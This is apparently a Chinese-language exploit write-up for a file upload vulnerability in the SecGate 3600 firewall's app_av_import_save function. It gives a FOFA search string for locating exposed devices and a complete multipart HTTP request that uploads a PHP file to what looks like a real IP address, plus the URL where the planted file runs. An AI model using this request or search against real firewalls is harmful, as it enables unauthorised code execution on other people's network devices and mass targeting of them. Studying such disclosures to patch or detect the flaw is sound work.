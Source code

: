 # 网神 SecGate 3600 防火墙 app_av_import_save 文件上传漏洞

    ## fofa

```
title="网神SecGate 3600防火墙"
```

## poc

```
POST / HTTP/1.1
Host: 111.121.226.71:4433
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
Accept-Encoding: gzip
Content-Length: 421

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="reqfile";filename="fsdfsdfsdf.php"
Content-Type: text/plain

<?php print(md5(233));
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

app_av_import_save
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

https://111.121.226.71:4433/attachements/fsdfsdfsdf.php
